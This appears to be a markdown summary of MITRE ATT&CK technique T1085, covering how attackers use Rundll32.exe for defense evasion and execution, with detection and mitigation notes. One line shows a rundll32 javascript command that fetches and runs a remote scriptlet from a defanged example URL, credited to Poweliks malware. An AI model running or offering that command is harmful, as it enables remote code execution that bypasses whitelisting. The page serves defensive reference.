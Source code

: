 # T1085 - Rundll32

## Attributes

**Tactics**: Defense Evasion, Execution
**Effective Permissions**: User
**Data Sources**: File monitoring, process monitoring, process command-line parameters, binary file metadata

## Description

Rundll32.exe is a program on Windows that can be called to execute arbitrary binary. Adversaries are able to take advantage of these features to execute code through Rundll32 and avoid triggering any security tools that most likely do not monitor execution of Rundll32 processes as Windows uses it for normal operations.

## Tools to Perform Attack

Rundll32.exe

### Examples

Rundll32.exe can be used to execute Control Panel Item files (.cpl) through the undocumented shell32.dll functions `Control_RunDLL` and `Control_RunDLLAsUser`. Double-clicking a .cpl file also causes rundll32.exe to execute.
Rundll32 can also been used to execute scripts such as JavaScript. This can be done using a syntax similar to this: `rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"` This behavior has been seen used by malware such as Poweliks.

## Detection

Use process monitoring to monitor the execution and arguments of rundll32.exe. Compare recent invocations of rundll32.exe with prior history of known good arguments and loaded DLLs to determine anomalous and potentially adversarial activity. Command arguments used with the rundll32.exe invocation may also be useful in determining the origin and purpose of the DLL being loaded.

## Mitigation

[M1050](https://attack.mitre.org/mitigations/M1050)

Microsoft's Enhanced Mitigation Experience Toolkit (EMET) Attack Surface Reduction (ASR) feature can be used to block methods of using rundll32.exe to bypass whitelisting.

## References

- **References to all articles go here**
  - [https://attack.mitre.org/techniques/T1085/](https://attack.mitre.org/techniques/T1085/)
